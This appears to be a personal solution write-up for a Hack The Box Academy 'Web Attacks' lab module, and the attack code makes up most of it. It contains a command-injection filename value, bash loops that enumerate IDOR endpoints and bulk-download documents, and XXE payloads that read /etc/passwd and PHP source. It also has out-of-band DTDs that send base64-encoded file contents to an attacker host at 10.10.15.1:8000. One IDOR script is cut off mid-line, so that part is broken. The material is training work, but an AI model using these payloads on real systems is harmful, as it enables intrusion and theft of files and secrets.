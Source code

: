 # [HTB] Web Attacks

## Bypassing Basic Authentication

>**Q. Try to use what you learned in this section to access the 'reset.php' page and delete all files. Once all files are deleted, you should get the flag.**

## Bypassing Security Filters
 
>**Q. To get the flag, try to bypass the command injection filter through HTTP Verb Tampering, while using the following filename: file; cp /flag.txt ./**

## Mass IDOR Enumeration

>**Q. Repeat what you learned in this section to get a list of documents of the first 20 user uid's in /documents.php, one of which should have a '.txt' file with the flag.**
```sh
sudo nano documents.sh
sudo chmod +x documents.sh
```
```sh
#!/bin/bash


for i in {0..50}; do
        for link in $(curl -X POST http://83.136.250.34:49965/documents.php -d >
                wget -q http://83.136.250.34:49965/$link
        done
done
```
```sh
./documents.sh

```

## Bypassing Encoded References

>**Q. Try to download the contracts of the first 20 employee, one of which should contain the flag, which you can read with 'cat'. You can either calculate the 'contract' parameter value, or calculate the '.pdf' file name directly.**
```sh
sudo nano encode.sh
sudo chmod +x encode.sh
```
```sh
#!/bin/bash


for i in {1..20}; do
    for hash in $( (echo -n $i | base64 -w 0) |jq -sRr @uri); do
        curl -s "http://83.136.250.34:36131/download.php?contract=$hash"
    done
done
```


## IDOR in Insecure APIs

>**Q. Try to read the details of the user with 'uid=5'. What is their 'uuid' value?**

## Chaining IDOR Vulnerabilities

>**Q. Try to change the admin's email to 'flag@idor.htb', and you should get the flag on the 'edit profile' page.**

## Local File Disclosure

>**Q. Try to read the content of the 'connection.php' file, and submit the value of the 'api_key' as the answer.**
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=connection.php">
]>
```
## Advanced Exfiltration with CDATA
```Code: xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

```
Mdmithu@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
Mdmithu@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
```
Code: xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```
## Advanced File Disclosure

>**Q. Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').**

```bash
sudo nano xxe.dtd
```

```dtd
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

## (web_attacks_xxe_exfil_error_2.jpg)[https://github.com/mithu9554/HTB_Academy/blob/main/HTB_Web_Attacks/web_attacks_xxe_exfil_error_2.jpg]

```bash
python3 -m http.server 8000
```

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.15.1:8000/xxe.dtd">
  %remote;
  %error;
]>
```

## Blind Data Exfiltration

>**Q. Using Blind Data Exfiltration on the '/blind' page to read the content of '/327a6c4304ad5938eaf0efb6cc3e53dc.php' and get the flag.**
```bash
sudo nano xxe2.dtd 
```

```dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/327a6c4304ad5938eaf0efb6cc3e53dc.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://10.10.15.1:8000/?content=%file;'>">
```

```bash
php -S 0.0.0.0:8000
```

## Web Attacks - Skills Assessment

>**Q. Try to escalate your privileges and exploit different vulnerabilities to read the flag at '/flag.php'.**

```xml
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
            <root>
            <name>&xxe;</name>
            <details>test</details>
            <date>2023-07-18</date>
            </root>
```
```xml
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">
]>
            <root>
            <name>&xxe;</name>
            <details>test</details>
            <date>2023-07-18</date>
            </root>
```
